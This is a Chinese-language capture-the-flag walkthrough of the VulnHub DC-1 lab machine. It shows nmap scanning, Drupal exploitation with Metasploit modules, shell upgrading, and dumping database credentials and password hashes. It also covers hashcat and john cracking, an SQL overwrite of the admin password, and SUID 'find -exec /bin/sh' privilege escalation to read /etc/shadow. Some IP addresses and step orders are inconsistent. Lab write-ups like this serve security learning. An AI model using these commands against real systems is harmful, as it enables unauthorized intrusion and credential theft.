# DC-1 靶机实战分析

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-1,292/

**知识点**
- drupal 漏洞利用 (flag1)
- Linux 提权 (flag5)
- hashcat 跑密码 (flag3)
- drush 使用 (补充)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

老规矩,先进行 IP 探测,我在部署的时候使用的是 NAT 模式，这里 kali 使用 nmap 嗅探该网段的

语法 `nmap -sP <网段>/24`

```bash
nmap -sP 192.168.197.0/24
```




可见有5个结果，去除网关和 kali 和 VM 主机以外 `192.168.197.2` 就是目标了

下面扫描开放端口,还是使用 nmap

```bash
nmap -T5 -A -v -p- 192.168.197.145
-T5 ：此选项将定时模板设置为激进定时。定时模板的范围从 0（悲观）到 5（疯狂）。将其设置为 T5 会使 Nmap 的扫描变得更为激进，这意味着它发送数据包的速度更快，可以更快地完成扫描，但也增加了被入侵检测系统或防火墙检测到的可能性。
-A：此选项启用了激进模式。它启用了操作系统检测、版本检测、脚本扫描和跟踪路由。这种模式通过尝试检测目标系统的操作系统、软件版本并对发现的服务运行脚本，提供了有关目标系统更多的信息
-v：此选项增加了输出的详细程度。它使 Nmap 更加详细。使用 -v，Nmap 将输出有关扫描进度和结果的更多信息。
-p-：此选项指定扫描所有端口。通过使用 -p-，Nmap 将扫描目标主机上的所有 65535 个 TCP 端口。这与指定特定端口范围或单个端口不同
192.168.197.145：这是 Nmap 将要扫描的目标 IP 地址。它是你想要扫描以查找开放端口、服务和其他信息的主机的 IPv4 地址
```


```
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          32916/tcp6  status
|   100024  1          34020/udp6  status
|   100024  1          38872/tcp   status
|_  100024  1          60167/udp   status
```

可见开放了 22、80、111 3个端口,且 80 端口运行着 Drupal 这个 CMS

那么,下面就是对目前已经收集到了信息进行进一步利用
```
Drupal 7 漏洞利用 SSH 梭哈爆破
```

---

# 中期-漏洞利用

从之前的 nmap 结果得知，目标 80 端口运行着 Drupal 7 版本的 CMS，那么其实有很多公开的 CVE EXP 可供使用

- CVE-2014-3704
- CVE-2018-7600
- CVE-2018-7602
- CVE-2019-6339
- CVE-2019-6341

CVE-2018-7602、CVE-2019-6339、CVE-2019-6341 需要认证，这里就懒得测了，以 CVE-2014-3704 和 CVE-2018-7600 为例,Metasploit 自带这2个漏洞的 EXP
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.135    
run
set RHOSTS 192.168.141.135 : 这里设置反射的远程地址
```



可以看到成功弹回一个会话,这里使用 exploit/unix/webapp/drupal_drupalgeddon2 这个模块也可以成功

获取 meterpreter 会话后，先整一个 cmd shell
```bash
shell
```

整个正常交互式的 shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
这个命令是用 Python 在交互式终端（PTY）中启动一个 Bash shell，并设置环境变量 TERM 为 xterm。
让我们逐步解释这个命令：
1. `python -c`: 这个部分启动 Python 解释器并执行单行 Python 代码。

2. `'import pty; pty.spawn("/bin/bash")'`: 这是 Python 代码，它导入了 pty 模块并调用了 spawn 函数以在一个伪终端（PTY）中启动 /bin/bash，从而获得一个交互式的 Bash shell。

3. `export TERM=xterm`: 这是在 Bash shell 中设置了一个环境变量 TERM 的命令，将其值设置为 xterm。TERM 环境变量通常用于指定终端类型，这里将其设置为 xterm，表明终端类型为 xterm。

总之，这个命令的作用是在一个交互式的 Bash shell 中设置了 TERM 环境变量，并将其值设置为 xterm。
```



ok,现在有了一个 www-data 用户的权限，下面开始按照描述中的找那5个 flag 文件

---

# flag1

先 find 试试
```bash
find / -name flag*
```



当前目录下就有1个

```
FLAG1:
Every good CMS needs a config file - and so do you.
```

我们去config去找找线索

---

# flag2

drupal 7 的配置文件是 /sites/all/modules/domain/settings.inc
```bash
cat sites/all/modules/domain/settings.inc
cat: sites/all/modules/domain/settings.inc: No such file or directory
```

没有找到这个文件,甚至连 domain 目录都没有,那么这个配置文件会不会指的是 CMS 的其他配置文件,比如数据库连接的配置文件 /sites/default/settings.php 咱们去看看
```bash
cat sites/default/settings.php
```



可以看到 flag2 的内容和 mysql 数据库的账号密码
```
FLAG2:  Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).What can you do with these credentials?
```

---

# flag3

配置文件都写了是 mysql,那就本地直接连接
```mysql
mysql -u dbuser -p 
成功进去了
```



发现有表 ，走 ！进去看看 

```mysql
show databases;
use drupaldb;
show tables;
```




查询用户名密码

```mysql
select name,pass from users;
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
+-------+---------------------------------------------------------+
```

得到了密码的 hash 就得跑明文了,下面使用 hashcat 爆破

当然不能直接跑,那这辈子都跑不完  得知道 Hash id ,  `hashcat --help` 查看 hash 对照表
```bash
root@kali:~# hashcat --help | grep "Drupal"
   7900 | Drupal7                                          | Forums, CMS, E-Commerce, Frameworks
```

这里把 hash 先写到源文件里,等下直接引用
```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

这里先盲猜这里会使用简单的弱口令，先用这几个常用的到试试

```
123456
888888
000000
password
147258
MyPassword
qwerty
Abcd1234
1qaz2wsx
654321
123456789
admin
```


```bash
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

一切准备就绪,run



只跑出一个 MyPassword 后面试了一下不是admin的密码

这里只能先换个思路，使用对方加密的方式覆盖原来的密码

```bash
php scripts/password-hash.sh 123456
```


接着就直接替换掉原密码

```mysql
UPDATE users SET pass='$S$D8RRzdsLf1t4pNNXAHulu4XGwq.ZmbVOJaQsgF.5rYSNiweMM1ko' WHERE uid = 1;
```

成功进入管理员后台 发现flag3



```
FLAG3: Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
查看flag3后，关注点放到passwd文件和shadow文件。Linux为了考虑安全性，用单独的shadow文件存储Linux用户的密码信息，并且只有root用户有权限读取此文件。所以下一步，我们要考虑的是提权了。
```

---

# flag4：后期：后渗透提权

```bash
cat /etc/passwd
```



发现一个 flag4 用户，直接看家目录文件
```bash
cat /home/flag4/flag4.txt
```
```
FLAG4: Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

```bash
touch demo
find / -name demo -exec "whoami" \;
find / -name demo -exec "/bin/sh" \;
1. `touch demo`: 这个命令在当前目录下创建一个名为 "demo" 的空文件。
2. `find / -name demo -exec "whoami" \;`: 这个命令在文件系统中查找名为 "demo" 的文件，并尝试执行 `whoami` 命令来获取当前用户的用户名。
3. `find / -name demo -exec "/bin/sh" \;`: 这个命令在文件系统中查找名为 "demo" 的文件，并尝试执行 `/bin/sh`。但是同样
```

提权成功后 查看shadow文件

```bash
cat /etc/shadow
切回到kali 使用john破解hash
john flag4 
得到flag4的密码：orange
```





登录进来后 里面有flag4

```bash
flag4@DC-1:~$ cat flag4.txt 
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?

```


# flag5

通过ssh登录进来后 查看到最后一个flag在root目录下，刚才我们已经提权了 所以直接查看




